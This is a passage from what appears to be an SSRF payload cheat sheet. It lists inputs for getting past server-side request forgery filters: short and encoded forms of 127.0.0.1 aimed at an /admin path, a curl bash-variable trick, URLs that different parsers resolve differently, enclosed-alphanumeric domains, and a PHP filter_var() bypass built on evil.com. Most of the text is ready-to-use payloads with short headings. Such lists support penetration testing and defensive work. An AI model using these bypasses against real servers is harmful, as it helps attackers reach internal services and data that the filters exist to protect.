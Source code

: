 ```powershell
http://0/
http://127.1
http://127.0.1
```

### Bypass using URL encoding

[Single or double encode a specific URL to bypass blacklist](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)

```powershell
http://127.0.0.1/%61dmin
http://127.0.0.1/%2561dmin
```

### Bypass using bash variables 

(curl only)

```powershell
curl -v "http://evil$google.com"
$google = ""
```

### Bypass using tricks combination

```powershell
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
```

### Bypass using enclosed alphanumerics 

[@EdOverflow](https://twitter.com/EdOverflow)

```powershell
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

### Bypass filter_var() php function

```powershell
0://evil.com:80;http://google.com:80/ 
```

### Bypass against a weak parser
